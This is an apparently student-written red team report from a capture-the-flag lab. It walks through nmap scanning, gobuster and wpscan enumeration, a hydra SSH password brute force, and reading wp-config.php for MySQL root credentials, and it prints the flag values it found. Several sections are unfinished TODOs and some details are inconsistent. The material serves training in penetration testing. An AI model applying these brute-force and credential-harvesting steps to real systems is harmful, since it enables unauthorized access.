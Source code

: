 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
nmap -sS -A 192.168.1.110

```
  ![](../images/nmap-a1.png)
  ![](../images/nmap-a2.png)


This scan identifies the services below as potential points of entry:

- **Target 1**

- Open port 22 dedicated to SSH services
- Open port 80 dedicated to HTTP services
- Apache http version 2.4.1.0
- OS version Windows 6.1 (Smba 4.2)


  

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - List of
  - Critical
  - Vulnerabilities

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- **Target 1**

  - [Flag 1 Screen Shot ](../images/flag1-view-source2.png), `Flag1.txt`: **flag1{b9bbcb33e1b80be759c4e844862482d}**
   
    - **Exploit Used**

      - Using gobuster to identify web directories and exploring them during scanning and enumeration 
      - **`gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium dir -e -u http://192.168.1.110 -x .php,txt,html`**

      - Inspecting the source code for the service page and identified the flag in comments under the code for the html footer

  - [Flag 2 Screen Shot](../images/flag2.png), `Flag2.txt`: **flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**

    - **Exploit Used**
     - Remote SSH connection after identifying a user with wpscan. One of the users identified was michael
     - `wpscan --url http://192.168.1.110/wordpress -eu`

     - Brute forcing the pssword for michael wiht hydra
     - **`hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4`**

     - Connecting via SSH as Michael
     - **`ssh michael@192.168.1.10`**

     - Searching for the flag
     - **`find -type f -iname ‘flag*’ 2>dev/null`**
    
  - [Flag 3 Screen Shot](../images/flag34-2.png), Flag3.txt: **flag3{afc01ab56b50591e7dccf93122770cd2}**

    - Inspecting wp-config.php to look for root access to MySQL database
    - `cat /var/www/html/wordpress/wp-config.php`

    - Loging on to the MySQL server
    - `mysql -u root -p`

   - Inspecting MySQL tables  for flags
    - `show databases;`
    - `show tables`
    - `select * from wp_posts;`

